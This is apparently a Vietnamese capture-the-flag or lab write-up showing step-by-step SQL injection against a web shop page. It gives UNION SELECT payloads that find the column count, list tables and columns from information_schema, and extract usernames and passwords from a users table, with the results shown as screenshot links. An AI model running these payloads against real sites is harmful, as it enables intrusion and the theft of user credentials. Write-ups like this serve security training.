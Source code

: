 = Khi thử ' thì thấy hiện lỗi cú pháp:
<img width="1700" height="436" alt="image" src="https://github.com/user-attachments/assets/7dd4b08b-b631-4efa-8343-214b16293037" />

=> Bị lỗi SQLi.

= sử dụng '-- - thì thấy trả về rằng trang web có tất cả 125 Records:

<img width="1725" height="905" alt="image" src="https://github.com/user-attachments/assets/b8a42256-4a8e-443f-8d96-85daf467aa89" />

= Tìm số cột của CSDL: Khi sử dụng payload `'UNION SELECT 1,2--` thì thấy trả về:
<img width="1439" height="180" alt="image" src="https://github.com/user-attachments/assets/1021b630-0541-4dc7-89eb-d5c8d5dad07c" />

=> Số cột > 2 cột. Thử tiếp mãi đến 15 cột mới thấy trả về đúng:

<img width="1757" height="1065" alt="image" src="https://github.com/user-attachments/assets/a7e4672b-0613-4465-89c6-cd0327839ae3" />

= Lấy dữ liệu thôi. Khi test version() vào 1 thì thấy có:
<img width="1363" height="532" alt="image" src="https://github.com/user-attachments/assets/56451dca-4750-4e57-8514-3e7103ddf86f" />

= Nghĩa là cột thứ 3 render tên sách, cột thứ 6 render ra giá sau khi giảm. Khi gõ `' UNION SELECT 1,2,sql,4,5,6,7,8,9,10,11,12,13,14,15 FROM sql_schema -- -` thì nó báo lỗi như này:
<img width="1648" height="127" alt="image" src="https://github.com/user-attachments/assets/8677d1ba-744a-4aea-832e-170c409d494d" />

= Khi gõ này nó trả về:
<img width="895" height="145" alt="image" src="https://github.com/user-attachments/assets/9068277d-55bb-483f-8ceb-ab19b24e741c" />

=> Nghĩa là cột mình lấy nó đang không phải text, ghép vào không mix.

= Sau khi chuyển `table_name` sang cột 6 (payload: `'UNION SELECT 1,2,3,4,5,table_name,7,8,9,10,11,12,13,14,15 FROM information_schema.tables WHERE table_schema=database()-- -` thì mình đã thu được:

<img width="1611" height="408" alt="image" src="https://github.com/user-attachments/assets/56110bde-83a6-4615-bc82-eee2def62fc2" />

= Vậy là có 4 bảng là `rating`, `users`, `products`, `cart`.

= Đọc thử bảng `users` : `'UNION SELECT 1,2,3,4,5,column_name,7,8,9,10,11,12,13,14,15 FROM information_schema.columns WHERE table_name="users"-- -`
<img width="1597" height="347" alt="image" src="https://github.com/user-attachments/assets/750c65cd-8cf8-4f06-bb60-98ba760fd6a5" />

= Bảng `rating`:
<img width="1060" height="156" alt="image" src="https://github.com/user-attachments/assets/ffb41cb6-98a5-4421-b7b0-b254017f160e" />

= Bảng `products`:
<img width="1565" height="902" alt="image" src="https://github.com/user-attachments/assets/2bf24a00-3263-4803-ad12-eb80d227146d" />

= Bảng `cart`:
<img width="1079" height="191" alt="image" src="https://github.com/user-attachments/assets/b550188b-9ad3-404c-8923-611c2213229c" />

= Giờ đọc dữ liệu bảng `users` nhé. Sử dụng `'UNION SELECT 1,2,username,4,5,pasword,7,8,9,10,11,12,13,14,15 FROM users-- -`
<img width="1689" height="734" alt="image" src="https://github.com/user-attachments/assets/fcb2ecc7-af1d-4ecb-94b5-d04e3131a7ef" />
